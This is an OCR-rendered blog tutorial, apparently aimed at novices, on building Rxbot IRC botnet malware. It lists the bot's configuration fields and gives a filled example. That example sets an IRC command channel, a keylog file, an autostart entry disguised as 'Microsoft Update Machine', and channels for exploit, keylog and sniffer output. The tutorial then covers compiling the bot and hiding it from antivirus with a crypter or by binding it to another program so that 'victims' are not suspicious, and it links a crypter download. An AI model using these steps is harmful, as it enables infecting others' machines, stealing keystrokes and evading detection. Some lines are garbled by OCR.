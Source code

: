     Find the CONFIGS.S file (might be in "headers" folder, or not, it depends on the Rxbot version) , and at your right, you will see all of its parameters ; this is were you are going to edit it as you prefer.
    <http://bp3.blogger.com/_QKWgCjfqXOU/R7PA6UYpWUI/AAAAAAAAAZI/MHkYip727qM/s400/clipimage011vk8.jpg>
    **CONFIG.S PARAMETERS **
char botid[] = “”;                 // bot id
char version[] = “”;                 // Bots !version reply
char password[] = “”;              // bot password
char server[] = “”;                  // serverchar serve
rpass[] = “”;                           // server password
char channel[] = “”;               // channel that the bot should join
char chanpass[] = “”;              // channel password
char server2[] = “”;               // backup server (optional)
char channel2[] = “”;              // backup channel (optional)
char chanpass2[] = “”;             // backup channel password (optional)
char filename[] = “bling.exe”;  // DO NOT CHANGE THIS!!
char keylogfile[] = “”;               // keylog filename
char valuename[] = “”;            // value name for autostart
char nickconst[] = “”;              // first part to the bot’s nick
char szLocalPayloadFile[]=”";    // Payload filename
char modeonconn[] = “”;          // Can be more than one mode and contain both + and -
char exploitchan[] = “”;     // Channel where exploit messages get redirected
char keylogchan[] = “”;            // Channel where keylog messages get redirected
char psniffchan[] = “”;
**EXAMPLE OF HOW IT COULD LOOK LIKE AFTER BEING CONFIGURED :**
char botid[] = “DiE”;                              // bot id
char version[] = “[rxBot v0.6.6a “;                     // Bots !version reply
char password[] = “fucku”;                       // bot password
char server[] = “irc.server.net”;                    // server
char serverpass[] = “”;                            // server password
char channel[] = “#peruvian”;                      // channel that the bot should join
char chanpass[] = “”;                            // channel password
char server2[] = “”;                              // backup server (optional)
char channel2[] = “”;                              // backup channel (optional)
char chanpass2[] = “”;                               // backup channel password (optional)
char filename[] = “bling.exe”;                           // DO NOT CHANGE THIS!
char keylogfile[] = “system.txt”;                   // keylog filename
char valuename[] = “Microsoft Update Machine”;   // value name for autostart
char nickconst[] = “[Rlz]-”;                           // first part to the bot’s nick
char szLocalPayloadFile[]=”msconfig.dat”;          // Payload filename
char modeonconn[] = “+n+U”;                    // Can be more than one mode and contain both + and -char exploit
chan[] = “#peruvian “;                                   // Channel where exploit messages get redirected
char keylogchan[] = “#peruvian “;                   // Channel where keylog messages get redirected
char psniffchan[] = “#peruvian “;
**4) COMPILE! Go to Build>Rebuild All.. If you did it right, then it should say Rbot.exe - 0 errors, 0 warnings.**
<http://bp2.blogger.com/_QKWgCjfqXOU/R7PArEYpWTI/AAAAAAAAAZA/6fKtJ8XpmgI/s400/clipimage009io3.jpg>
**5) Your rbot.exe is, by default, in the RELEASE folder.. windows+F if you are stupid enough not to find it.**
**6) Making it stealth : **
If you got to this point, it means that you have your irc server and bot ready to rumble... But there are 2 problems :
1) AVs will detect it
2) By itself, it only executes the code in the background, so your victims will be suspicious.
**So, you should do 2 things :**
1) make it stealth with a crypter or
2) Bind it to another executable or
3)All of the above.
Long story short : download TYV CRYPTER (or the crypter of your choice) [http://anonym.to/?http://www.megaupload.com/?d=DH6XX69O](/http://anonym.to/?http://www.megaupload.com/?d=DH6XX69O)
- rar password : troyanosvirus.com.ar